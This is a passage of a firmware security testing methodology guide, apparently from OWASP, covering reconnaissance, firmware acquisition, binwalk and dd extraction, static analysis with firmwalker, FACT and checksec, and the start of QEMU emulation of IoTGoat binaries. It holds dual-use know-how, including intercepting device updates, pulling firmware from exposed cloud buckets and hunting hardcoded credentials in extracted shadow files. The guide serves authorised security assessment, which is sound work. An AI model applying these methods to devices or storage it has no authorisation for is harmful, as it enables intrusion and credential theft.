









# Firmware Security Testing Methodology

Whether network connected or standalone, firmware is the center of controlling any embedded device. As such, it is crucial to understand how firmware can be manipulated to perform unauthorized functions and potentially cripple the supporting ecosystem’s security. To get started with performing security testing and reverse engineering of firmware, use the following methodology as guidance when embarking on an upcoming assessment. The methodology is composed of nine stages tailored to enable security researchers, software developers, consultants, hobbyists, and Information Security professionals with conducting firmware security assessments.

**Stage** | **Description** | 
------- | ------- | 
 | 1. Information gathering and reconnaissance | Acquire all relative technical and documentation details pertaining to the target device's firmware
 | 2. Obtaining firmware | Attain firmware using one or more of the proposed methods listed
 | 3. Analyzing firmware | Examine the target firmware's characteristics
 | 4. Extracting the filesystem | Carve filesystem contents from the target firmware
 | 5. Analyzing filesystem contents | Statically analyze extracted filesystem configuration files and binaries for vulnerabilities
 | 6. Emulating firmware | Emulate firmware files and components
 | 7. Dynamic analysis | Perform dynamic security testing against firmware and application interfaces
 | 8. Runtime analysis | Analyze compiled binaries during device runtime
 | 9. Binary Exploitation | Exploit identified vulnerabilities discovered in previous stages to attain root and/or code execution

The following sections will further detail each stage with supporting examples where applicable. Consider visiting the [OWASP Internet of Things Project](https://owasp.org/www-project-internet-of-things/) page and GitHub repository for the latest methodology updates and forthcoming project releases.

A preconfigured Ubuntu virtual machine (EmbedOS) with firmware testing tools used throughout this document can be downloaded via the following [link](https://tinyurl.com/EmbedOS-2020). Details regarding EmbedOS’ tools can be found on GitHub within the following repository [https://github.com/scriptingxss/EmbedOS](https://github.com/scriptingxss/EmbedOS).

### **Information gathering and reconnaissance**

During this stage, collect as much information about the target as possible to understand its overall composition underlying technology. Attempt to gather the following: 

* Supported CPU architecture(s)
* Operating system platform
* Bootloader configurations
* Hardware schematics
* Datasheets
* Lines-of-code (LoC) estimates 
* Source code repository location
* Third-party components
* Open source licenses (e.g. GPL)
* Changelogs
* FCC IDs
* Design and data flow diagrams 
* Threat models
* Previous penetration testing reports
* Bug tracking tickets (e.g. Jira and bug bounty platforms such as BugCrowd or HackerOne)

The above listed information should be gathered prior to security testing fieldwork via a questionnaire or intake form. Ensure to leverage internal product line development teams to acquire accurate and up to date data. Understand applied security controls as well as roadmap items, known security issues, and most concerning risks. If needed, schedule follow up deep dives on particular features in question. Assessments are most successful within a collaborative environment.

Where possible, acquire data using open source intelligence (OSINT) tools and techniques. If open source software is used, download the repository and perform both manual as well as automated static analysis against the code base. Sometimes, open source software projects already use free static analysis tools provided by vendors that provide scan results such as [Coverity Scan](https://scan.coverity.com/) and [Semmle’s LGTM](https://lgtm.com/#explore). For example, the screenshots below shows snippets of [Das U-Boot](http://www.denx.de/wiki/U-Boot/WebHome)’s Coverity Scan results.



Figure : U-Boot Coverity Scan



Figure : U-Boot Coverity Scan Analysis

Below are screenshots of [Dropbear](https://github.com/mkj/dropbear) results from LGTM’s analysis.


Figure : LGTM Dropbear Alerts



Figure : LGTM Dropbear Results

With the information at hand, a light threat model exercise should be performed mapping attack surfaces and impact areas that show the most value in the event of compromise.

### **Obtaining firmware**

To begin reviewing firmware contents, the firmware image file must be acquired. Attempt to obtain firmware contents using one or more of the following methods:

* Directly from the development team, manufacturer/vendor or client
* Build from scratch using walkthroughs provided by the manufacturer
* From the vendor's support site
* Google dork queries targeted towards binary file extensions and file sharing platforms such as Dropbox, Box, and Google drive
  * It’s common to come across firmware images through customers who upload contents to forums, blogs, or comment on sites where they contacted the manufacturer to troubleshoot an issue and were given firmware via a zip or flash drive sent.
* Man-in-the-middle (MITM) device communication during updates
* *Download builds from exposed cloud provider storage locations such as Amazon Web Services (AWS) S3 buckets
* Extract directly from hardware via UART, JTAG, PICit, etc.
* Sniff serial communication within hardware components for update server requests 
* Via a hardcoded endpoint within the mobile or thick applications
* Dumping firmware from the bootloader (e.g. U-boot) to flash storage or over the network via tftp
* Removing the flash chip (e.g. SPI) or MCU from the board for offline analysis and data extraction (LAST RESORT). 
  * You will need a supported chip programmer for flash storage and/or the MCU.

> *Note: Ensure to follow local laws and regulations when downloading data from exposed cloud provider storage services.

Each of the listed methods vary in difficulty and should not be considered an exhaustive list. Select the appropriate method according to the project objectives and rules of engagement. If possible, request both a debug build and release build of firmware to maximize testing coverage use cases in the event debug code or functionality is compiled within a release. 

### **Analyzing firmware**

Once the firmware image is obtained, explore aspects of the file to identify its characteristics. Use the following steps to analyze firmware file types, potential root filesystem metadata, and gain additional understanding of the platform it's compiled for.

Leverage binutils such as:

```
file <bin>  
strings  
strings -n5 <bin>  
binwalk <bin>  
hexdump -C -n 512 <bin> > hexdump.out  
hexdump -C <bin> | head # might find signatures in header
```

If none of the above methods provide any useful data, the following is possible:

* Binary may be BareMetal
* Binary may be for a real time operating system (RTOS) platform with custom a custom filesystem
* Binary may be encrypted

If the binary may be encrypted, check the entropy using binwalk with the following command:

`$ binwalk -E <bin>`

Low entropy = Not likely to be encrypted

High entropy = It's likely encrypted (or compressed in some way).

Alternate tools are also available using Binvis online and the standalone application. 

* Binvis
  * [https://code.google.com/archive/p/binvis/](https://code.google.com/archive/p/binvis/)
  * [https://binvis.io/#/](https://binvis.io/#/)

### **Extracting the filesystem**

This stage involves looking inside firmware and parsing relative filesystem data to start identifying as many potential security issues as possible. Use the following steps to extract firmware contents for review of uncompiled code and device configurations used in following stages. Both automated and manual extractions methods are shown below.

1. Use the following tools and methods to extract filesystem contents:

`$ binwalk -ev <bin>`

Files will be extracts to " `_binaryname/filesystemtype/`"

Filesystem types: squashfs, ubifs, romfs, rootfs, jffs2, yaffs2, cramfs, initramfs

2a. Sometimes, binwalk will not have the magic byte of the filesystem in its signatures. In these cases, use binwalk to find the offset of the filesystem and carve the compressed filesystem from the binary and manually extract the filesystem according to its type using the steps below.

```
$ binwalk DIR850L_REVB.bin

DECIMAL HEXADECIMAL DESCRIPTION
----------------------------------------------------------------------------- ---

0 0x0 DLOB firmware header, boot partition: """"dev=/dev/mtdblock/1""""
10380 0x288C LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 5213748 bytes
1704052 0x1A0074 PackImg section delimiter tag, little endian size: 32256 bytes; big endian size: 8257536 bytes
1704084 0x1A0094 Squashfs filesystem, little endian, version 4.0, compression:lzma, size: 8256900 bytes, 2688 inodes, blocksize: 131072 bytes, created: 2016-07-12 02:28:41
```

2b. Run the following dd command carving the Squashfs filesystem. 
```
$ dd if=DIR850L_REVB.bin bs=1 skip=1704084 of=dir.squashfs 

8257536+0 records in

8257536+0 records out

8257536 bytes (8.3 MB, 7.9 MiB) copied, 12.5777 s, 657 kB/s  
```

Alternatively, the following command could also be run. 

`$ dd if=DIR850L_REVB.bin bs=1 skip=$((0x1A0094)) of=dir.squashfs`

2c. For squashfs (used in the example above)

`$ unsquashfs dir.squashfs`

Files will be in "`squashfs-root`" directory afterwards.   

2d. CPIO archive files

`$ cpio -ivd --no-absolute-filenames -F <bin>`

2f. For jffs2 filesystems

`$ jefferson rootfsfile.jffs2`

2d. For ubifs filesystems with NAND flash

`$ ubireader_extract_images -u UBI -s <start_offset> <bin>`

`$ ubidump.py <bin>`

### **Analyzing filesystem contents**

During this stage, clues are gathered for dynamic and runtime analysis stages. Investigate if the target firmware contains the following (non-exhaustive):

* Legacy insecure network daemons such as telnetd  (sometimes manufactures rename binaries to disguise )
* Hardcoded credentials  (usernames, passwords, API keys, SSH keys, and backdoor variants )
* Hardcoded API endpoints and backend server details
* Update server functionality that could be used as an entry point
* Review uncompiled code and start up scripts for remote code execution
* Extract compiled binaries to be used for offline analysis with a disassembler for future steps

Statically analyze filesystem contents and uncompiled code manually or leveraging automation tools such as firmwalker that parse the following:

* etc/shadow and etc/passwd
* list out the etc/ssl directory
* search for SSL related files such as .pem, .crt, etc.
* search for configuration files
* look for script files
* search for other .bin files
* look for keywords such as admin, password, remote, AWS keys, etc.
* search for common web servers used on IoT devices
* search for common binaries such as ssh, tftp, dropbear, etc.
* search for banned c functions
* search for common command injection vulnerable functions
* search for URLs, email addresses and IP addresses
* and more…

The following subsections introduce open source automated firmware analysis tools. 

#### Firmwalker

Execute firmwalker within it’s directory in ~/tools/firmwalker and point firmwalker to the absolute path of the extracted filesystem’s root directory. Firmwalker uses information in the "/data/” directory for parsing rules. A custom fork modified by Aaron Guzman with additional checks can be found on GitHub at [https://github.com/scriptingxss/firmwalker](https://github.com/scriptingxss/firmwalker).  The following examples show the usage of firmwalker used on [OWASP’s IoTGoat](https://github.com/OWASP/IoTGoat). Additional vulnerable firmware projects are listed in the [Vulnerable firmware]() section at the end of the document.

`$ ./firmwalker.sh /home/embedos/firmware/ _IoTGoat-rpi-2.img.extracted/squashfs-root/`

See the firmwalker output below. 


Two files will be generated, firmwalker.txt and firmwalkerappsec.txt. These output files should be manually reviewed.  

#### Firmware Analysis Comparison Toolkit  (FACT )

Fortunately, multiple open source automated firmware analysis tools are available. FACT features include the following:

* Identification of software components such as operating system, CPU architecture, and third-party components along with their associated version information
* Extraction of firmware filesystem (s ) from images
* Detection of certificates and private keys
* Detection of weak implementations mapping to Common Weakness Enumeration (CWE)
* Feed & signature-based detection of vulnerabilities
* Basic static behavioral analysis
* Comparison (diff) of firmware versions and files
* User mode emulation of filesystem binaries using QEMU
* Detection of binary mitigations such as NX, DEP, ASLR, stack canaries, RELRO, and FORTIFY_SOURCE
* REST API
* and more...

 Below are instructions for using firmware analysis comparison toolkit within the companion [preconfigured virtual machine](https://tinyurl.com/EmbedOS-2019).

_Tip: It is recommended to run FACT with a computer that has 16 Cores 64GB RAM although the tool can run with a minimum of 4 cores and 8GB of RAM at a much slower pace. Scan output results vary on the allocated resources given to the virtual machine. The more resources, the faster FACT will complete scan submissions._
```
$ cd ~/tools/FACT_core/
$ sudo ./start_all_installed_fact_components
```
Navigate to [http://127.0.0.1:5000](http://127.0.0.1:5000/) in browser



Figure : FACT Dashboard

Upload firmware components to FACT for analysis. In the screenshot below, the compressed complete firmware with its root filesystem will be uploaded and analyzed. 



Figure : FACT Upload

Depending on the hardware resources given to FACT, the analysis results will appear with its scan results upon a given time. This process can take hours if minimal resources are allocated.  



Figure : FACT IoTGoat



Figure : FACT IoTGoat Exploit Mitigation Results

Disassemble suspect target binaries with data gathered from FACT using IDA Pro, Ghidra, Hopper, Capstone, or Binary Ninja. Analyze binaries for potential remote code execution system calls, strings, function lists, memory corruption vulnerabilities, and identify Xrefs to system() or alike function calls. Note potential vulnerabilities to use for upcoming steps. 

The following screenshot shows the “shellback” binary disassembled using Ghidra.



Figure : Shellback Ghidra Analysis

Common binary analysis consist of reviewing the following:

* Stack canaries enabled or disabled
  * `$ readelf -aW bin/*| grep stack_chk_fail`
  * `$ mips-buildroot-linux-uclibc-objdump -d bin/binary | grep stack_chk_fail`
* Position-independent executable (PIE) enabled or disabled
  * PIE disabled
    * `$ readelf -h <bin> | grep -q 'Type:[[:space:]]*EXEC'`
  * PIE enabled
    * `$ readelf -h <bin> | grep 'Type:[[:space:]]*DYN'`
  * DSO
    * `$ readelf -d <bin> |  grep -q 'DEBUG'`
  * Symbols
    * `$ readelf --syms <bin>`
    * `$ nm <bin>`
* Recognizable strings
  * `-el` specifies little-endian characters 16-bits wide (e.g. UTF-16). 
  * Use `-eb` for big endian
  * Prints any ASCII strings longer than 16 to stdout
  * The `-t` flag will return the offset of the string within the file. 
  * `-tx` will return it in hex format, T-to in octal and `-td` in decimal. 
  * Useful for cross-referencing with a hex editor, or want to know where in the file your string is.
  * `strings -n5 <bin> `
  * `strings -el <bin>`
  * `strings -n16 <bin>`
  * `strings -tx <bin>`
* Non-executable (NX) enabled or disabled
  * `$ readelf -lW bin/<bin>| grep STACK`

`GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4`

 The 'E' indicates that the stack is executable.
```
$ execstack bin/*

X bin/ash

X bin/busybox
```

* Relocations read-only (RELRO) configuration
  * Full RELRO:
    * `$ readelf -d binary | grep BIND_NOW`
  * Partial RELRO:
    * `$ readelf -d binary | grep GNU_RELRO`

A script that automates checking many of the above binary properties is [checksec.sh](https://github.com/slimm609/checksec.sh). Below, are two examples of using the script.   

```
> ./checksec --file=/home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/bin/busybox
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No	0		0	/home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/bin/busybox
```

```
> ./checksec --file=/home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/usr/bin/shellback
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No	0		0	/home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/usr/bin/shellback
```



Figure : Checksec.sh

### **Emulating firmware**

Using details and clues identified in previous steps, firmware as well as it’s encapsulated binaries must be emulated to verify potential vulnerabilities. To accomplish emulating firmware, there are a few approaches listed below.

1. Partial emulation (user space) - Emulation of standalone binaries derived from a firmware's extracted filesystem such as `/usr/bin/shellback`
2. Full system emulation - Emulation of the full firmware and start up configurations leveraging fake NVRAM.
3. Emulation using a real device or virtual machine - At times, partial or full emulation may not work due to a hardware or architecture dependencies. If the architecture and endianness match a device owned such as a raspberry pie, the root filesystem or specific binary can be transferred to the device for further testing. This method also applies to pre built virtual machines using the same architecture and endianness as the target.

#### Partial Emulation (user-mode emulation)

To begin partially emulating binaries, the CPU architecture and endianness must be known for selecting the appropriate QEMU emulation binary in the following steps.
```
$ binwalk -Y <bin> 
$ readelf -h <bin> 
```
el - little endian

eb - big endian

Binwalk can be used identify endianness for packaged firmware binaries (not from binaries within extracted firmware) using the command below.
```
$ binwalk -Y UPG_ipc8120p-w7-M20-hi3516c-20160328_165229.ov

DECIMAL HEXADECIMAL DESCRIPTION

--------------------------------------------------------------------------------

3480 0xD98 ARM executable code, 32-bit, little endian, at least 1154 valid instructions
```
After the CPU architecture and endianness have been identified, locate the appropriate QEMU binary to perform partial emulation (Not for emulating the full firmware, but binaries with the extracted firmware.)

Typically, in: 

`/usr/local/qemu-arch` or `/usr/bin/qemu-arch`  

Copy the applicable QEMU binary into the extracted root filesystem. The second command shows copying the static arm QEMU binary to the extracted root filesystem within a ZSH shell showing the absolute path. 
```
> cp /usr/local/qemu-arch /extractedrootFS/

/home/embedos/firmware/_DIR850L_REVB_FW207WWb05_h1ke_beta1.decrypted.extracted/squashfs-root 
> cp /usr/bin/qemu-arm-static .  
```

Execute the ARM binary (or appropriate arch) to emulate using QEMU and chroot with the following command:

`$ sudo chroot . ./qemu-arch <binarytoemulate>`

The following example shows Busybox emulated within a typical x64 architecture an attacker machine is likely using. 
```
> sudo chroot . ./qemu-arm-static bin/busybox ls
[sudo] password for embedos: 
bin               etc               overlay           rom               sys               var
dev               lib               proc              root              tmp               www
dnsmasq_setup.sh  mnt               qemu-arm-static   sbin              usr

```
Below, is an example of emulating a service that listens on port 5515. 
```
> sudo chroot . ./qemu-arm-static usr/bin/shellback  

```
